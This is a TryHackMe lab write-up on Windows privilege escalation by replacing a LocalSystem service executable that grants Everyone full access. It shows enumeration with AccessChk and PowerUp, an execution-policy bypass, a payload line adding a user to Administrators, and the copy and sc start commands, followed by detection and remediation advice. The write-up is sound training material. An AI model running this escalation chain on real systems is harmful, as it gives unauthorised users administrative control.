







# Weak Service File Permissions — Windows Privilege Escalation

> **Platform:** TryHackMe  
> **Room:** Windows PrivEsc Arena  
> **Task:** 4  
> **Operating System:** Windows 7 Professional  
> **Technique:** Service Executable Replacement  
> **Initial Context:** Standard local user  
> **Result:** Local user added to the Administrators group  
> **MITRE ATT&CK:** T1574.010 — Services File Permissions Weakness  
> **CWE:** CWE-732 — Incorrect Permission Assignment for Critical Resource  

---

## Disclaimer

This write-up documents an authorized TryHackMe training environment.

Target addresses, VPN addresses, credentials, flags, and sensitive values have been removed or replaced with placeholders. The compiled service executable used in the laboratory is not included in this repository.

---

## Executive Summary

The Windows host contained a service named:

```text
filepermsvc
```

The service executable was stored at:

```text
C:\Program Files\File Permissions Service\filepermservice.exe
```

Permission analysis showed that the built-in `Everyone` security principal had `FILE_ALL_ACCESS` over the executable.

This allowed the low-privileged `user` account to overwrite the legitimate service binary without modifying the service configuration or Registry `ImagePath`.

The original executable was replaced with `x.exe`, the same service executable created during Task 3. That executable was configured to run:

```cmd
net localgroup administrators user /add
```

After the `filepermsvc` service was started, Windows launched the replacement executable under the service account's security context. The service ran as `LocalSystem`, allowing the embedded command to add the low-privileged user to the local Administrators group.

Two detection methods were used:

1. Manual permission inspection with Microsoft Sysinternals AccessChk.
2. Automated privilege-escalation enumeration with PowerUp.

---

## Attack Path

```text
Identify the filepermsvc service executable
                    ↓
Inspect the executable permissions
                    ↓
Confirm Everyone has FILE_ALL_ACCESS
                    ↓
Verify that user is not an Administrator
                    ↓
Reuse x.exe from Task 3
                    ↓
Overwrite filepermservice.exe with x.exe
                    ↓
Start the filepermsvc service
                    ↓
Service Control Manager launches the replacement binary
                    ↓
Replacement binary runs under the service account
                    ↓
user is added to the local Administrators group
```

---

# 1. Understanding the Vulnerability

Windows services are managed by the Service Control Manager.

A service configuration specifies an executable that Windows launches when the service starts. For this service, the executable was:

```text
C:\Program Files\File Permissions Service\filepermservice.exe
```

The service itself was configured to run under:

```text
LocalSystem
```

`LocalSystem` is a highly privileged built-in Windows security identity.

A service executable should normally be protected so that only trusted administrative identities can modify it.

A secure permission model would normally resemble:

```text
NT AUTHORITY\SYSTEM       FullControl
BUILTIN\Administrators    FullControl
Standard users            ReadAndExecute
```

The vulnerable executable instead granted full access to:

```text
Everyone
```

This created the following trust violation:

```text
Low-privileged user can replace the executable
                    ↓
Privileged service trusts and launches that executable
                    ↓
User-controlled code inherits the service account's context
```

---

# 2. Manual Detection with AccessChk

The executable permissions were inspected with Microsoft Sysinternals AccessChk:

```cmd
C:\Users\user\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
```

AccessChk identified:

```text
C:\Program Files\File Permissions Service\filepermservice.exe
```

The relevant output included:

```text
RW Everyone
    FILE_ALL_ACCESS

RW NT AUTHORITY\SYSTEM
    FILE_ALL_ACCESS

RW BUILTIN\Administrators
    FILE_ALL_ACCESS
```



## AccessChk option explanation

```text
-w
```

Shows objects for which write-related access exists.

```text
-v
```

Enables verbose output and displays detailed permission names.

```text
-u
```

Suppresses certain access-denied errors.

The combined option:

```text
-wvu
```

shows writable objects with verbose permission details while suppressing unnecessary errors.

## Understanding FILE_ALL_ACCESS

`FILE_ALL_ACCESS` grants extensive control over a file. Depending on the effective Access Control List, this can include:

- Reading the file
- Writing to the file
- Executing the file
- Deleting the file
- Replacing the file
- Changing file attributes
- Changing permissions
- Taking ownership

The critical capability in this task was the ability to overwrite or replace:

```text
filepermservice.exe
```

## Why Everyone was significant

`Everyone` is a broad Windows security principal that normally includes the interactively logged-on user.

Because `Everyone` had `FILE_ALL_ACCESS`, the standard `user` account could overwrite the service executable.

---

# 3. Alternative Detection with PowerUp

PowerUp was also used to automate the search for Windows privilege-escalation weaknesses.

A PowerShell session was started with the execution-policy restriction bypassed:

```cmd
powershell -ep bypass
```

The PowerUp script was loaded into the current PowerShell session:

```powershell
. .\PowerUp.ps1
```

All available checks were then executed:

```powershell
Invoke-AllChecks
```



## Command explanation

```cmd
powershell
```

Starts Windows PowerShell.

```cmd
-ep bypass
```

Sets the execution policy for the current PowerShell process to `Bypass`.

This allowed the laboratory script to run without permanently modifying the system-wide PowerShell execution policy.

```powershell
. .\PowerUp.ps1
```

Dot-sources `PowerUp.ps1`.

Dot-sourcing loads the script's functions into the current PowerShell session so commands such as `Invoke-AllChecks` become available.

```powershell
Invoke-AllChecks
```

Runs PowerUp's privilege-escalation enumeration checks.

PowerUp examined several service-related weaknesses, including unquoted service paths, weak service permissions, and modifiable service executables.



The final finding identified:

```text
ServiceName                      : filepermsvc
Path                             : C:\Program Files\File Permissions Service\filepermservice.exe
ModifiableFile                   : C:\Program Files\File Permissions Service\filepermservice.exe
ModifiableFileIdentityReference  : Everyone
StartName                        : LocalSystem
CanRestart                       : True
AbuseFunction                    : Install-ServiceBinary -Name 'filepermsvc'
```



## Understanding the PowerUp finding

### ServiceName

```text
filepermsvc
```

Identifies the vulnerable service.

### Path

```text
C:\Program Files\File Permissions Service\filepermservice.exe
```

Identifies the executable launched by the service.

### ModifiableFile

Confirms that the service executable itself can be changed.

### ModifiableFileIdentityReference

```text
Everyone
```

Identifies the security principal receiving the modifiable permission.

### StartName

```text
LocalSystem
```

Shows that the service runs under the highly privileged Local System account.

### CanRestart

```text
True
```

Shows that the current user can restart or trigger the service, making the replacement binary reachable through service execution.

### AbuseFunction

```powershell
Install-ServiceBinary -Name 'filepermsvc'
```

Shows the PowerUp function associated with automating exploitation of the finding.

This write-up uses the manual binary-replacement method to clearly demonstrate what occurs behind the scenes.

## Important clarification

The line:

```text
Checking for unquoted service paths...
```

does not mean that `filepermsvc` was vulnerable to an unquoted service path attack.

`Invoke-AllChecks` performs multiple checks sequentially. The actual reported weakness for `filepermsvc` was the modifiable service executable.

---

# 4. Confirming the Initial Group Membership

Before replacing the service executable, local Administrators group membership was checked:

```cmd
net localgroup administrators
```

The output included:

```text
Administrator
TCM
```

The low-privileged account:

```text
user
```

was not listed.



This established the initial state and provided evidence that the user was not already a local administrator.

---

# 5. Reusing the Task 3 Service Executable

The replacement executable was:

```text
x.exe
```

This was the same executable created during Task 3.

It was compiled from the laboratory's `windows_service.c` source and contained the following command:

```c
system("cmd.exe /k net localgroup administrators user /add");
```

The effective Windows command was:

```cmd
net localgroup administrators user /add
```

The command adds the local `user` account to the local Administrators group.

The executable was not regenerated for Task 4 because the same service-compatible binary could be reused.

Its role differed between the two tasks:

| Task | Vulnerable Resource | How x.exe Was Executed |
|---:|---|---|
| 3 | Service Registry key | `ImagePath` was redirected to `C:\Temp\x.exe` |
| 4 | Service executable file | `x.exe` overwrote the legitimate service binary |

The payload remained the same. The vulnerable control point changed.

---

# 6. Replacing the Service Executable

The replacement executable was initially stored at:

```text
C:\Temp\x.exe
```

It was copied over the legitimate service binary:

```cmd
copy /y C:\Temp\x.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Windows returned:

```text
1 file(s) copied.
```



## Command explanation

```cmd
copy
```

Copies a file from one path to another.

```cmd
/y
```

Suppresses the confirmation prompt when overwriting an existing destination file.

```text
C:\Temp\x.exe
```

Is the attacker-controlled source executable.

```text
C:\Program Files\File Permissions Service\filepermservice.exe
```

Is the legitimate service executable being replaced.

Quotation marks were required around the destination path because the directory name contains spaces.

## What changed

Before replacement:

```text
filepermsvc
        ↓
C:\Program Files\File Permissions Service\filepermservice.exe
        ↓
Legitimate service executable
```

After replacement:

```text
filepermsvc
        ↓
C:\Program Files\File Permissions Service\filepermservice.exe
        ↓
Task 3 x.exe payload
```

The service name and executable path did not change.

Only the contents of the executable at the trusted path changed.

---

# 7. Starting the Service

The service was started using:

```cmd
sc start filepermsvc
```

The Service Control Manager read the existing service configuration and launched:

```text
C:\Program Files\File Permissions Service\filepermservice.exe
```

Because that file had been overwritten, Windows launched the replacement executable.

The service status showed:

```text
STATE : 2 START_PENDING
```

The Service Control Manager had started the replacement process and was waiting for normal service-status communication.

The privilege-changing command could execute even if the replacement process did not complete the full service lifecycle.

---

# 8. Verifying the Privilege Escalation

After starting the service, local Administrators group membership was checked again:

```cmd
net localgroup administrators
```

The output now included:

```text
Administrator
TCM
user
```



The new entry:

```text
user
```

confirmed that the replacement executable ran with sufficient privilege to modify the local Administrators group.

The privilege transition was:

```text
Standard local user
        ↓
Member of the local Administrators group
```

The user should normally log off and log back on before expecting the new group membership to be fully reflected in a newly generated Windows access token.

---

# 9. What Happened Behind the Scenes

The complete internal process was:

```text
The user identifies the filepermsvc executable
                    ↓
AccessChk confirms Everyone has FILE_ALL_ACCESS
                    ↓
PowerUp independently confirms the file is modifiable
                    ↓
PowerUp confirms the service runs as LocalSystem
                    ↓
PowerUp confirms the service can be restarted
                    ↓
The user overwrites filepermservice.exe with x.exe
                    ↓
The service configuration remains unchanged
                    ↓
The user starts filepermsvc
                    ↓
The Service Control Manager launches the configured path
                    ↓
The configured path now contains attacker-controlled code
                    ↓
The replacement executable inherits the service context
                    ↓
x.exe runs:
net localgroup administrators user /add
                    ↓
The user is added to the Administrators group
```

The central security failure was:

> A low-privileged user could replace an executable trusted and launched by a LocalSystem service.

---

# 10. Difference Between Task 3 and Task 4

Both tasks abused the execution of a privileged Windows service, but the vulnerable resource was different.

## Task 3 — Weak Service Registry Permissions

The low-privileged user could modify:

```text
HKLM\SYSTEM\CurrentControlSet\Services\regsvc\ImagePath
```

The attack changed where the service pointed:

```text
Original ImagePath
        ↓
C:\Temp\x.exe
```

## Task 4 — Weak Service File Permissions

The service path remained unchanged:

```text
C:\Program Files\File Permissions Service\filepermservice.exe
```

Instead, the executable at that path was overwritten.

```text
Legitimate binary
        ↓
Replaced with x.exe
```

The distinction is:

| Task | Changed Object | Service Path Changed? |
|---:|---|---|
| 3 | Registry `ImagePath` | Yes |
| 4 | Executable file contents | No |

Task 3 abused a weak Registry ACL.

Task 4 abused a weak NTFS file ACL.

---

# 11. Conditions Required for Exploitation

Successful exploitation required all of the following:

1. A service used a predictable executable path.
2. The current user could modify or replace the executable.
3. The service ran under a privileged account.
4. The current user could start, restart, or otherwise trigger the service.
5. The replacement executable was compatible with service execution.
6. The replacement binary completed its privileged action.
7. Antivirus or application-control protections did not block the file.

A writable executable alone does not always guarantee immediate privilege escalation.

The service must also execute in a more privileged context and be triggerable.

---

# 12. Security Classification

## Vulnerability

```text
Weak Service File Permissions
```

## Attack Type

```text
Service Executable Replacement
```

## Impact

```text
Local Privilege Escalation
```

## MITRE ATT&CK

```text
T1574.010 — Hijack Execution Flow: Services File Permissions Weakness
```

This technique covers replacing or modifying an executable used by a service because of weak file or directory permissions.

## CWE

```text
CWE-732 — Incorrect Permission Assignment for Critical Resource
```

The service executable was a critical resource because Windows launched it under a privileged service account.

---

# 13. Detection Opportunities

Defenders should monitor executables referenced by Windows services.

Important detection opportunities include:

- Audit NTFS permissions on service executables.
- Detect `Everyone`, `Users`, or `Authenticated Users` with write permissions.
- Monitor modifications to executables under `C:\Program Files`.
- Monitor service executable hash changes.
- Alert on executable replacement followed by service start activity.
- Detect `copy`, `move`, or PowerShell file operations targeting service binaries.
- Monitor unexpected `sc start` and `sc stop` activity.
- Monitor local Administrators group membership changes.
- Detect `net localgroup administrators <USER> /add`.
- Monitor services launching unsigned or newly created binaries.
- Use file-integrity monitoring on privileged service directories.
- Compare service binary publishers and hashes against approved baselines.

A suspicious sequence would be:

```text
Service executable modified
        ↓
Service started or restarted
        ↓
Privileged local group modified
```

---

# 14. Remediation

The service executable and its parent directory should be protected with least-privilege permissions.

A secure configuration should normally resemble:

```text
NT AUTHORITY\SYSTEM       FullControl
BUILTIN\Administrators    FullControl
Standard users            ReadAndExecute
```

Recommended remediation actions include:

- Remove `FILE_ALL_ACCESS` from `Everyone`.
- Remove write and modify permissions from standard users.
- Review inherited permissions on the parent directory.
- Restrict service executable replacement to trusted administrators.
- Restore the legitimate service executable from a trusted source.
- Validate the executable's hash and digital signature.
- Remove unauthorized users from the Administrators group.
- Audit all non-Microsoft service executable permissions.
- Prevent privileged services from loading binaries from writable directories.
- Use AppLocker or Windows Defender Application Control.
- Deploy file-integrity monitoring for service binaries.
- Monitor changes to service configurations and executable paths.
- Apply least privilege to service-management permissions.

Correcting only the executable permission may be insufficient if the parent directory remains writable.

Both should be reviewed:

```text
C:\Program Files\File Permissions Service
C:\Program Files\File Permissions Service\filepermservice.exe
```

---

# 15. Windows Version Scope

This task was tested on Windows 7 Professional.

The underlying service file-permission weakness is not inherently limited to Windows 7. A similar vulnerability can exist on newer Windows versions when an unprivileged user can overwrite an executable used by a privileged service.

However, the replacement executable must behave as a valid service program and communicate correctly with the Service Control Manager.

The `x.exe` file reused from Task 3 was created from the laboratory's Windows service source code. The exact binary and its service API implementation should not automatically be assumed to operate identically on Windows 10 or Windows 11.

Modern systems may also introduce additional controls, including:

- Microsoft Defender Antivirus
- AppLocker
- Windows Defender Application Control
- Stronger default file permissions
- Endpoint Detection and Response
- Executable reputation and signing checks

The correct conclusion is:

> The permission weakness can affect multiple Windows versions, but the laboratory executable and exact exploitation behavior were validated only on Windows 7.

---

# 16. Lessons Learned

AccessChk and PowerUp identified the same underlying weakness through different approaches.

AccessChk provided direct manual evidence:

```text
Everyone — FILE_ALL_ACCESS
```

PowerUp correlated several security conditions:

```text
The executable was modifiable
The modifying identity was Everyone
The service ran as LocalSystem
The current user could restart the service
```

The most important enumeration questions were:

```text
Which executable does the service launch?
Who can modify the executable?
Who can modify the parent directory?
Which account runs the service?
Can the current user start or restart it?
Will the replacement executable run as a service?
```

The central lesson is:

> A privileged Windows service is only as secure as the file permissions protecting its executable and parent directory.

---

## Tools Used

| Tool | Purpose |
|---|---|
| AccessChk | Manually inspect service executable permissions |
| PowerShell | Load and run PowerUp |
| PowerUp | Automatically identify modifiable service binaries |
| `copy` | Replace the vulnerable service executable |
| `sc.exe` | Start the vulnerable service |
| `net localgroup` | Verify Administrators group membership |
| `x.exe` | Reused Task 3 service executable |

---

## Evidence Summary

| Evidence | Finding |
|---|---|
| AccessChk output | `Everyone` had `FILE_ALL_ACCESS` over the executable |
| PowerUp output | `filepermservice.exe` was modifiable by `Everyone` |
| Service account | `filepermsvc` ran as `LocalSystem` |
| Restart capability | PowerUp reported `CanRestart: True` |
| Initial group check | `user` was not an Administrator |
| Binary replacement | `x.exe` overwrote `filepermservice.exe` |
| Service start | Service launched the replacement executable |
| Final group check | `user` appeared in the Administrators group |

---

## References

- MITRE ATT&CK T1574.010 — Services File Permissions Weakness
- CWE-732 — Incorrect Permission Assignment for Critical Resource
- Microsoft Sysinternals AccessChk documentation
- Microsoft Windows Service Control Manager documentation
- PowerSploit PowerUp documentation
